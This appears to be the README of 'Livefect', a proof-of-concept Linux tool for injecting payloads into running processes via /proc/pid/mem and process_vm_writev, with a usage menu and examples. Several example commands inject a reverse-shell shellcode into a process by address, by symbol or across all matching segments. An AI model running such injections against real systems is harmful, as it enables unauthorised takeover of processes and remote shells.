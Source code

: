 # Livefect

Livefect is a PoC tool to play around with `/proc/pid/mem`, `process_vm_readv` and `process_vm_write` as alternatives ways of injecting into processes without using `ptrace` directly.

Technically we still need the same privileges to use this as we need for `ptrace` but I mean, why not.
It was fun to play around with this as I had to learn about ELF, shellcodes and Linux in general.

Excuse the terrible C code, it has been so long since I actually wrote anything in it.

I literally have no idea why I did this or if this is useful in any way or form. Enjoy :).

Some scenarios where this might be helpful:
   - Overwrite of a function's code with our payload is necessary (see options -e, -S, --symbol, --library)
   - Overwrite of executable data is necessary (i.e. modify a variable's dlsym value to an arbitrary address)
   - Overwrite of data (i.e. values which control process flow)


## TODOs and possible new features
   - Rewrite code to be less messy
   - Find PLT/GOT entries of in-memory/loaded modules, overwrite address (this should be possible on RELRO binaries if the library is loaded at runtime) 
   - See if feasable/useful allow reading ROP gadget addresses from file, file format could be something like that:
   ```
   0x123456 // write first gadget here
   0xff1122 // this is the first gadget
   0x88eeaa // this is the second gadget
   0x1122da // this is the third gadget
   ...
   ...
   ```
   - It'd be very cool if it could also look for XREFs in the binary to identify possible injection points
   ```
   Get ELF
   Disassemble and find XREFs
   Fix offsets
   Find all segments with specified permissions (i.e. rwx)
   Return output of 
   ADDR     XREF_COUNT
   0x123    1
   0x456    12
   0x789    234         //then one can further inspect this addr, see if it's a function (--disams) and write here (-a 0x789)
   ```
   - Regex filters for function and export names
   - iovecs splitting if payload is > page_size

## Compile
To compile `livefect`, capstone is needed. Just run:

```
make # make livefect with all features and victim program

make victim # make the victim program to play around

make no-capstone # TODO: build livefect without --disasm and --disasm-bytes
```

## Usage
You will likely need to be `root` to run this.
```
Livefect = Infect live, running processes
Usage: ./livefect [opts]
        -h --help:              show this help message
        -V --process-vm:        use process_vm_writev instead of /proc/[pid]/mem
        -p --pid PID:           run against specified pid (default: NULL)
        -f --file FILE:         file containing data to write/payload (default: NULL)
        -a --addr ADDR:         (raw mode) address to write data/payload to
        -v --verbosity LEVEL:   set verbosity level (default: 0)
        -P --perms PERMS:       which permissions to look for (default: rwxp)
        -S --func-only:         only display function symbols
           --symbol SYMBOL:     write FILE to all symbols with name SYMBOL
           --library LIBRARY:   to use with --symbol allow write to specific SYMBOL from specific LIBRARY
        -D --data-only:         only display data symbols
        -I --inject-all:        (potentially unsafe) force payload injection in any matching memory area
        -m --maps:              only list memory maps
           --disasm N:          (implies -m) try disassemble the first N instructions and show output (default: 0)
           --disasm-bytes N:    (implies -m) bytes to pass to disassembler (default: 64)
        -e --exports:           only list exported functions
        -F --force-disk:        force ELF exports lookup from disk
        -s --skip-root:         do not enforce root checks

Made while screaming in *PANIC* by @thatsn0mysite (https://thatsn0tmy.site)
```

### Recon
To simply display interesting segments we can use the `-m` or `-e`, to show memory segments and exports and quit. No writing is done (unless **raw mode** is on). 
```
./livefect -me --pid 123
```

### Auto-mayhem
The simplest usage is to just run `livefect` with a payload as such:
```
./livefect -f shellcodes/reverse_shell 

```

this will attempt to find all writable segments containing exports and write our payload there, in ALL of em.

### Controlled-mayhem
Another basic usage is using `livefect`'s **raw mode**:
```
./livefect -f shellcodes/reverse_shell -a 0x7fb75ed44109
``` 

this will attempt to write our payload at the specified address.

### Filters
Some basic filtering has been implemented to semplify injection. For example to write payload at the address of symbol `test_func` we can use the `--symbol` and `--library` flags along with `-P`:
```
./livefect -f shellcode/reverse_shell --symbol test_func --library /usr/lib/test.so -P "r*x*" --pid 123
```

if we are lucky, this will write our payload into the `test_func` of library `/usr/lib/test.so` from pid `123`, `-P` specifies the permissions we are looking for, using `proc maps` format.  